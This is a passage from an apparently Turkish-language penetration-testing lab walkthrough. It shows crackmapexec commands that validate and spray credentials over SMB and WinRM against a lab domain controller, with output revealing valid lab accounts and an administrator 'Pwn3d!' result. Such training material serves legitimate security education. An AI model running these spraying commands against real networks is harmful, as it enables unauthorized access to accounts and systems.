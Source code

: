 Artık yeni parola ile kimlik doğrulaması yapabiliriz.

```
crackmapexec smb 10.129.203.121 -u peter -p Password123

SMB 10.129.203.121 445 DC01 [*] Windows 10.0 Build
17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True)
(SMBv1:False)
SMB 10.129.203.121 445 DC01 [+]
inlanefreight.htb\peter:Password123

```


### Target Protocol WinRM

Varsayılan olarak, esasen Remote Management (uzaktan yönetim) için tasarlanmış olan[ Windows Remote Management (WinRM)](https://learn.microsoft.com/en-us/windows/win32/winrm/portal) servisi, bir hedef üzerinde PowerShell komutlarını çalıştırmamıza izin verir. WinRM, Windows Server 2012 R2 / 2016 / 2019 üzerinde `TCP/5985 (HTTP)` ve `TCP/5986 (HTTPS`) portlarında varsayılan olarak etkindir. PowerShell Remoting, [Yönetim için Web Hizmetleri (WSManagement)](https://www.dmtf.org/sites/default/files/standards/documents/DSP0226_1.2.0.pdf) protokolünün Microsoft uygulaması olan [Windows Remote Management'](https://learn.microsoft.com/en-us/windows/win32/winrm/portal)ı (WinRM) kullanır

Bir remote bilgisayarda WinRM servisine bağlanmak için, `local administrator` ayrıcalıklarına sahip olmamız, `Remote Management Users` grubunun bir üyesi olmamız veya oturum yapılandırmasında `PowerShell Remoting` için açık izinlere sahip olmamız gerekir.

WinRM, bir parolanın geçerli olup olmadığını belirlemek için en iyi protokol değildir çünkü sadece WinRM erişimi varsa hesabın geçerli olduğunu belirtir. Bu senaryoda, bulduğumuz üç (3) hesabı test edebiliriz ve bu üç (3) hesaptan herhangi birinin WinRM erişimi olup olmadığını görmek için `--no-bruteforce` seçeneğini kullanabiliriz.


### WinRM - Password Spraying

```
crackmapexec smb 10.129.203.121 -u userfound.txt -p passfound.txt --nobruteforce --continue-on-success

SMB 10.129.203.121 445 DC01 [*] Windows 10.0 Build
17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True)
(SMBv1:False)
SMB 10.129.203.121 445 DC01 [+]
inlanefreight.htb\grace:Inlanefreight01!
SMB 10.129.203.121 445 DC01 [+]
inlanefreight.htb\robert:Inlanefreight01! SMB 10.129.203.121 445 DC01 [+] inlanefreight.htb\peter:Password123
```

```
crackmapexec winrm 10.129.203.121 -u userfound.txt -p passfound.txt --nobruteforce --continue-on-success

SMB 10.129.203.121 5985 DC01 [*] Windows 10.0 Build
17763 (name:DC01) (domain:inlanefreight.htb)
HTTP 10.129.203.121 5985 DC01 [*]
http://10.129.203.121:5985/wsman
WINRM 10.129.203.121 5985 DC01 [-]
inlanefreight.htb\grace:Inlanefreight01!
WINRM 10.129.203.121 5985 DC01 [-]
inlanefreight.htb\robert:Inlanefreight01!
WINRM 10.129.203.121 5985 DC01 [+]
inlanefreight.htb\peter:Password123 (Pwn3d!)
```
